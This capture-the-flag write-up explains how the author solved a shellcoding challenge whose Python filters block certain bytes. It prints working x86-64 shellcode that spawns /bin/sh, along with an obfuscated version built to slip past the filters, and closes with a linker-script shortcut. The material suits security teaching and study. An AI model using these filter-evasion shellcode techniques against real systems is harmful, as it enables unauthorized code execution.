 # So What? Revenge

## Description

> Are you a shellcoding pro? If not, so what? (salt guaranteed once you know the solution)

{% file src="../../.gitbook/assets/handout.py" %}

## Solution

In this challenge, we were allowed to send an assembly source file that would be assembled with `as`. There are a number of filters that were being applied to our input.

{% code overflow="wrap" %}
```python
last_byte = b""
binary = b""
while True:
    byte = sys.stdin.buffer.read(1)
    binary += byte
    # allow cancer constraints here
    # man, I really wish there was a way to avoid all this pain!!!
    # lmao
    if b"\x80" <= byte < b"\xff": # 1. printable shellcode
        quit()
    if byte in b"/bi/sh": # 2. no shell spawning shenanigans
        quit()
    if b"\x30" <= byte <= b"\x35": # 3. XOR is banned
        quit()
    if b"\x00" <= byte < b"\x05": # 3. ADD is banned
        quit()
    if byte == b"\n" and last_byte == b"\n":
        break
    last_byte = byte
    if len(binary) >= 0x1000:
        exit(1)

with open("libyour_input.so", "wb") as f:
    f.write(binary)

print("Assembling!")

os.system("as libyour_input.so -o libyour_input.obj && ld libyour_input.obj -shared -o libyour_input.so")
```
{% endcode %}

The assembled library is then linked against `main`. A `libflag.so` is also compiled with `flag` defined, allowing it to have the `win()` function.

```python
main_source = """
#include <stdio.h>

extern int win();

#ifdef flag
int win() {
    printf("Congratulations!\\n");
    printf("FLAG_HERE");
}
#endif

int main() {
    win();
}
"""

with open("main.c", "w") as f:
    f.write(main_source)

os.system("gcc main.c -shared -o libflag.so -Dflag")
os.system("gcc main.c -L. -lyour_input -o main")
os.system("LD_LIBRARY_PATH='.' ./main")
```

### Unintended Solution

My unintended solution was to simply tackle the challenge the way it was presented, and evade the filters.

Let's first assume that the filters weren't there. Our goal would be to export a `win` function in our shared library, which is run by `main`. The following shellcode spawns a `/bin/sh` shell.

```nasm
.globl win
win:
    xor    %rdx, %rdx
    mov    $7526411553527181103, %rbx
    shr    $8, %rbx
    push   %rbx
    mov    %rsp, %rdi
    push   %rax
    push   %rdi
    mov    %rsp, %rsi
    mov    $59, %al
    syscall
    ret
```

The first challenge we face is that we cannot have any of the characters in `"/bi/sh"`.

```python
if byte in b"/bi/sh": # 2. no shell spawning shenanigans
    quit()
```

This can be evaded in our instructions by simply using uppercased code (which the assembler accepts), but dealing with the `win` label itself is a bit more tricky. We can't just use `WIN` since that would export a different symbol than the lowercased `win` we need.

We ended up creating the `win` label using `.set`, which expects a symbol name that can be a quoted value. To set the correct address, we use `.` which means the current position.

> `.set` symbol, expression
>
> The `.set` directive assigns the value of expression to symbol. Expression can be any legal expression that evaluates to a numerical value.

Great! This cursed code actually works, and linking it against `main` spawns a shell when running `main`.

```nasm
.GLOBL    "w\x69n"
.SET      "w\x69n", .
    XOR    %RDX, %RDX
    MOV    $7526411553527181103, %RBX
    SHR    $8, %RBX
    PUSH   %RBX
    MOV    %RSP, %RDI
    PUSH   %RAX
    PUSH   %RDI
    MOV    %RSP, %RSI
    MOV    $59, %AL
    SYSCALL
    RET
    
```

The final piece of the puzzle is to get rid of all digits `0` to `5`, since they correspond to the ASCII codes `\x30` to `\x35`.

```python
if b"\x30" <= byte <= b"\x35":
        quit()
```

Since the `MOV` operands are expressions, we could make use of mathematical operations to arrive at the number we need. For instance:

{% code overflow="wrap" %}
```
77768999999999 * 96779 + 788777778*6976 + 6798666 + 6699888 == 7526411553527181103
```
{% endcode %}

And that was just what we needed to complete the shellcode!

```nasm
.GLOBL    "w\x69n"
.SET "w\x69n", .
    XOR    %RDX, %RDX
    MOV    $77768999999999*96779 + 788777778*6976 + 6798666 + 6699888, %RBX
    SHR    $8, %RBX
    PUSH   %RBX
    MOV    %RSP, %RDI
    PUSH   %RAX
    PUSH   %RDI
    MOV    %RSP, %RSI
    MOV    $66-7, %AL
    SYSCALL
    RET
    
```

Popping this into the challenge gives us a shell.

<figure><img src="../../.gitbook/assets/Screenshot 2022-09-26 at 12.34.25 AM.png" alt=""><figcaption></figcaption></figure>

### Intended Solution

The `libflag.so` was there for a reason! Notice that since `os.system()` does not raise an exception if the executed commands error out, we could just write to the `libyour_input.so` directly without ever writing assembly code.

This meant that we could write a [linker script](https://users.informatik.haw-hamburg.de/\~krabat/FH-Labor/gnupro/5\_GNUPro\_Utilities/c\_Using\_LD/ldLinker\_scripts.html) that just links `libflag.so`.

```
INPUT ( -lflag )
```
